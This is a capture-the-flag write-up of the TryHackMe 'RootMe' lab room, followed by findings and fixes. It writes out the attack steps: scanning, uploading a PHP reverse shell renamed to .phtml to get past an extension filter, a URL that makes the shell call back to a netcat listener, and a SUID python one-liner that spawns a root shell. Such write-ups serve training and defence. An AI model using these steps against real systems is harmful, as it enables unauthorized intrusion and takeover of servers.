# RootMe

| Detail | Info |
|--------|------|
| **Platform** | TryHackMe |
| **Room** | RootMe |
| **Difficulty** | Easy |
| **Objective** | Gain initial access via file upload exploitation, escalate to root |
| **Tools Used** | Nmap · Gobuster · Netcat

---

## Reconnaissance

The first thing I did was run an Nmap scan. I wanted to know what ports were open and what services were running before doing anything else.

```bash
nmap -sV -sS -T4 -F 10.49.179.155
```

<p align="center">
  
</p>

The scan came back with two open ports: **22 (SSH)** and **80 (HTTP)**. I noted the SSH port but didn't have any credentials to work with, so I opened the browser and went to check what was running on port 80 first.

The webpage didn't show anything particularly interesting at first glance. I figured there might be more pages or directories that aren't linked anywhere on the surface, so I ran Gobuster to brute-force the directories.

```bash
gobuster dir -u 10.49.179.155 -w /usr/share/wordlists/dirb/common.txt
```
<p align="center">
   
</p>

Two directories showed up: `/panel` and `/uploads`. I went to `/panel` first to see what it was.

<br>

## Exploitation

`/panel` turned out to be a file upload page. No login, no nothing, just an upload form sitting there. My first thought was to try uploading a PHP reverse shell and see what happens.

<p align="center">
  
</p>

I grabbed a PHP reverse shell from `/usr/share/webshells/php/php-reverse-shell.php`. The script used GET parameters for the IP and port, so I could pass my machine’s address and port directly when executing it.

<p align="center">
  
</p>

Then tried uploading it directly. It got rejected. Okay, so there's some kind of filter on the file extension.

<p align="center">
  
</p>

I started searching for other file extensions that PHP can execute, basically looking for anything that might work as a bypass. I came across `.phtml` as one of the alternatives, and since the filter seemed to only care about `.php`, it was worth trying. I renamed the file to `reverse-shell.phtml` and uploaded it again.


This time the upload went through without any issues.

<p align="center">
  
</p>

Before triggering the shell, I set up a Netcat listener on port 4444 to catch the connection.

```bash
nc -lvnp 4444
```

<p align="center">
  
</p>

Since the `/uploads` directory was accessible, I navigated to the uploaded file through my browser and passed my IP and port as GET parameters in the URL to trigger the file.

```
http://10.49.179.155/uploads/reverse-shell.phtml?ip=192.168.181.147&port=4444
```

The page loaded and hung. I switched back to my terminal and the connection had come in.

<p align="center">
  
</p>

After gaining access, I found that I was operating as the `www-data` user. The next step was to search for the user flag. I used `find` to locate it since I didn’t know its exact location on the filesystem.

```bash
find / -name user.txt 2>/dev/null
```

It came back at `/var/www/user.txt`. I read the file and got the first flag.

```bash
cat /var/www/user.txt
```

<p align="center">
  
</p>

<br>

## Privilege Escalation

After gaining a foothold, I moved on to privilege escalation. Following the hint, I searched for SUID binaries owned by root using `find / -user root -perm /4000`. Since SUID binaries run with elevated privileges, any unusual file in the list could be a potential target for exploitation.

```bash
find / -user root -perm /4000 2>/dev/null
```

<p align="center">
  
</p>

Going through the results, I noticed `/usr/bin/python` in the list. Python with SUID is a known privesc vector, so I looked it up on GTFOBins to get the exact command.

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

<p align="center">
  
</p>

Finally, the last thing left was grabbing the root flag.

<p align="center">
  
</p>

<br>

## Findings & Recommendations

**1. Directory Listing Enabled (Medium | [CVSS 5.3](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N))**

The `/uploads` directory had directory listing enabled, meaning anyone could browse to it and see every file stored inside. On its own this isn't catastrophic, but in the context of this engagement it was a critical enabler. Without being able to see the filename of the uploaded shell, triggering the reverse shell wouldn't have been possible.

Fix: Disable directory listing on the web server. In Apache, this can be done by removing the `Indexes` option from the directory configuration, or by placing an empty `index.html` inside the folder.

**2. Unrestricted File Upload (Critical | [CVSS 9.8](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H))**

The upload form was only blocking `.php` files by extension. That kind of blacklist approach is easy to work around because PHP can execute files with alternative extensions like `.phtml`. On top of that, the `/uploads` directory was publicly accessible, which meant the uploaded file could be reached and executed directly through the browser. This gave remote code execution on the server with no authentication required.

Fix: Only allow specific, safe file types using a whitelist approach. Uploaded files should also be stored outside the web root and renamed randomly so they can't be predicted or accessed directly.

**3. SUID Bit on Python (Critical | [CVSS 9.8](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H))**

Having the SUID bit on Python means any user on the system can use it to spawn a shell as root. It completely bypasses normal access controls and requires minimal technical knowledge to exploit, especially with resources like GTFOBins documenting the exact steps.

Fix:
```bash
chmod u-s /usr/bin/python
```
Beyond that, it's worth auditing all SUID binaries on the system periodically. Interpreter binaries like Python, Perl, or Ruby should almost never have the SUID bit set.

<br>

## Lessons Learned

This room taught me quite a bit that I hadn't properly understood before. Going through the exploitation phase was actually my first time really understanding the difference between a bind shell and a reverse shell, and how each one works. With a reverse shell, the target connects back to you, which is why setting up the Netcat listener on my machine first was the key step. That clicked for me here.

Setting up the listener itself was also new to me. I now understand what `nc -lvnp 4444` actually does, how it waits for an incoming connection, and why the port has to match what the shell payload is configured to call back to.

The file upload bypass was something I figured out through searching, not prior knowledge. I didn't know going in that PHP can execute files with extensions other than `.php`. Finding that out and successfully using `.phtml` to get past the filter was a good lesson in why blacklists fail and why you should always look for alternatives when something gets blocked.

Lastly, I learned about GTFOBins. I had no idea this resource existed before this room. It's essentially a reference for binaries that can be abused for privilege escalation, file reads, shell spawning, and more. Finding Python in the SUID results and then looking it up on GTFOBins to get the exact exploit command was a straightforward process once I knew where to look.

<br>

> Big thanks to the creator for this fun and simple room, it’s a great way to practice some basic Linux privesc skills ^^
